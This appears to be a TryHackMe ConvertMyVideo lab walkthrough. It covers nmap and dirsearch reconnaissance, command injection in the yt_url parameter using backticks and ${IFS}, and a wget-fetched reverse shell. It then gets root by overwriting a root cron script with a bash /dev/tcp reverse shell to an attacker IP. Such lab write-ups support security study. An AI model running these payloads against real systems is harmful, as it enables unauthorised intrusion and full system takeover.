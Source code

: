 # TryHackMe ConvertMyVideo Walkthrough

## **1. Initial Reconnaissance**
### **Nmap Scan**
We start by scanning the target `10.10.206.3` with an aggressive scan to detect open ports and services:
```bash
nmap -sC -sV -p- -T4 -o nmap_res 10.10.206.3
```
**Results:**
- **Port 22:** OpenSSH 7.6p1 (Ubuntu 4ubuntu0.3)
- **Port 80:** Apache HTTPD 2.4.29 (Ubuntu)

### **Directory Enumeration**
Using `dirsearch` to find accessible directories:
```bash
python3 dirsearch.py -u http://10.10.206.3:80
```
**Notable Findings:**
- `/admin/` (Requires Authentication)
- `/admin/_logs/` (Contains access and error logs)
- `/admin/upload.php` (Potential file upload vulnerability)
- `/tmp/` (Restricted but accessible)

## **2. Exploiting Command Injection via `yt_url`**
### **Identifying Vulnerability**
The website allows users to enter a YouTube URL, which is then passed to `youtube-dl`. By modifying this parameter, we can execute arbitrary commands.

Intercepting a request in Burp Suite:
```http
POST / HTTP/1.1
Host: 10.10.206.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

yt_url=https://www.youtube.com/watch?v=xyz
```

**Injecting Commands:**
The trick is to use **backticks (`) to execute commands first.**
```bash
yt_url=`id`
```
**Finding Internal Field Separator (`IFS`)**
The system **does not like spaces**, so we use `${IFS}`:
```bash
yt_url=`ls${IFS}-la`
```
**URL Encoded:**
```bash
yt_url=%60ls%24%7BIFS%7D-la%60
```

## **3. Gaining a Reverse Shell**
### **Step 1: Download a Shell Script**
Using `wget` to fetch a shell script from our attacking machine:
```bash
yt_url=`wget${IFS}http://10.8.14.7:8081/shell.sh`
```

### **Step 2: Change Permissions**
By default, execution permission is restricted. We set **777 permissions**:
```bash
yt_url=`chmod${IFS}777${IFS}shell.sh`
```

### **Step 3: Execute Shell Script**
```bash
yt_url=`sh${IFS}shell.sh`
```

### **Step 4: Start Listener**
On our local machine, start a listener:
```bash
nc -lvnp 9001
```
Once executed, we should receive a reverse shell!

## **4. Privilege Escalation**
### **Step 1: Enumerate Running Processes**
Checking for scheduled tasks:
```bash
ps aux
```
**Findings:**
- `cron` is running as **root**.

### **Step 2: Spy on Cron Jobs**
Using `pspy`, a tool for monitoring scheduled jobs:
```bash
wget http://10.8.14.7:8081/pspy64
chmod +x pspy64
./pspy64
```
Identified `/tmp/clean.sh` running as root.

### **Step 3: Overwrite `clean.sh` with Reverse Shell**
```bash
echo "bash -i >& /dev/tcp/10.8.14.7/9091 0>&1" > /tmp/clean.sh
chmod 777 /tmp/clean.sh
```

### **Step 4: Start Another Listener**
```bash
nc -lvnp 9091
```
Once `clean.sh` executes, we receive a **root shell**! 🎉

## **5. Summary**
- **Recon:** Found open ports and sensitive directories.
- **Exploited Command Injection:** Used backticks and `${IFS}` to execute commands.
- **Reverse Shell:** Used `wget` to download a script and executed it.
- **Privilege Escalation:** Found and exploited a cron job running as root.
- **Root Access:** Replaced `clean.sh` with a reverse shell and gained full control.

🚀 **Challenge Complete!**


